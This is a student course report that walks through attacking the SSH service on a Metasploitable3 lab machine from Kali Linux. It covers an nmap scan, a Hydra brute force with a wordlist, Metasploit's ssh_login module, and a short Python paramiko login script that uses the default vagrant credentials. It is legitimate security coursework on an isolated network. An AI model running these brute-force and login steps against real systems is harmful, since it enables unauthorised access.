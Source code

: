 # ICS344 Project – Phase 1 Report

**Title:** SSH Service Exploitation on Metasploitable3  
**Student:** Sultan Alatawi  
**Date:** April 27, 2025

---

## Objective
The goal of Phase 1 is to exploit a vulnerable SSH service running on a Metasploitable3 virtual machine (victim) using a Kali Linux machine (attacker).  
This phase demonstrates successful brute-force attacks using Hydra, manual exploitation via Metasploit Framework, and automation through a custom Python script (Proof of Concept).

---

## Environment Setup
- **Attacker Machine:** Kali Linux  
  - IP Address: `192.168.8.164/24`
- **Victim Machine:** Metasploitable3 Ubuntu 14.04  
  - IP Address: `192.168.8.165/24`
- **Network Setup:** Both machines are configured on the same private subnet (`192.168.8.x`) to allow direct communication.

Both VMs were connected through a host-only/private network ensuring no external internet access during testing.

---

## Task 1.1: Manual Exploitation Using Metasploit

### Step-by-Step Actions

### 1. Network Connectivity Test

Verified communication between attacker and victim:

```bash
ping 192.168.8.165
```

### 2. Scanning the Victim with Nmap

Discovered open ports and running services:

```bash
nmap -sV 192.168.8.165
```

**Key findings:**
- Port 22/tcp (SSH) - OpenSSH 6.6.1p1
- Port 21/tcp (FTP) - ProFTPD 1.3.5
- Port 80/tcp (HTTP) - Apache httpd 2.4.7

---

## 3. Brute-Forcing SSH with Hydra

Attempted to brute-force SSH login credentials:

```bash
hydra -l vagrant -P /usr/share/wordlists/rockyou.txt ssh://192.168.8.165
```

**Result:**
- Username: `vagrant`
- Password: `vagrant`

---

## 4. Launching Metasploit Framework

Started Metasploit:

```bash
sudo msfconsole
```

---

## 5. Exploiting SSH Using Metasploit

Loaded the SSH login module:

```bash
use auxiliary/scanner/ssh/ssh_login
```

Set necessary options:

```bash
set RHOSTS 192.168.8.165
set USERNAME vagrant
set PASSWORD vagrant
set STOP_ON_SUCCESS true
run
```

---

## 6. Opening the SSH Session

After successful login:

```bash
sessions
sessions -i 1
```

---

## 7. Verifying Shell Access

Executed simple commands inside the victim machine:

```bash
whoami
uname -a
```

**Output:**
- Current user: `vagrant`
- Operating System: Ubuntu 14.04 LTS

---

# Task 1.2: Automated Exploitation Using a Custom Python Script

## Step-by-Step Actions

### 1. Installing Python SSH Library

Installed `paramiko` for SSH communication:

```bash
sudo apt update
sudo apt install python3-pip
pip3 install paramiko
```

---

### 2. Developing the Custom Script

Created a script `ssh_exploit.py` to automate the login process:

```python
import paramiko

target_ip = "192.168.8.165"
port = 22
username = "vagrant"
password = "vagrant"

def ssh_connect(ip, port, user, passwd):
    client = paramiko.SSHClient()
    client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    try:
        client.connect(ip, port=port, username=user, password=passwd)
        print(f"[+] Connected successfully to {ip} via SSH!")
        stdin, stdout, stderr = client.exec_command("whoami")
        print("[+] Command output:")
        print(stdout.read().decode())
        client.close()
    except Exception as e:
        print(f"[-] Connection failed: {e}")

if __name__ == "__main__":
    ssh_connect(target_ip, port, username, password)
```
